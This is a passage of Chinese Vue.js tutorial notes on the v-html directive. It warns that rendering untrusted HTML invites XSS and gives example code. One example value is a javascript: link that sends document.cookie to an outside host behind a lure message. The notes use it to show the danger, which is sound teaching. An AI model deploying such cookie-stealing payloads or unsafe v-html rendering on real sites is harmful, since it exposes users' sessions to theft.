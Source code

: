 ```html
			data:{
				name:'哈哈哈',
				str:'<h3>你好啊！</h3>'
			}
		})
	</script>
</html>
```

### v-html指令

1. 作用：向指定节点中渲染包含html结构的内容
2. 与插值语法的区别：
   1. v-html会替换掉节点中所有的内容，{{xx}}则不会
   2. v-html可以识别html结构。

3. 严重注意：v-html有安全性问题
   1. 在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击
   2. 一定要在可信的内容上使用v-html，永不要用在用户提交的内容上

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>v-html指令</title>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
    
	<body>
		<div id="root">
			<div>你好，{{name}}</div>
			<div v-html="str"></div>
			<div v-html="str2"></div>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		new Vue({
			el:'#root',
			data:{
				name:'哈哈哈',
				str:'<h3>你好啊！</h3>',
				str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
			}
		})
	</script>
</html>
```
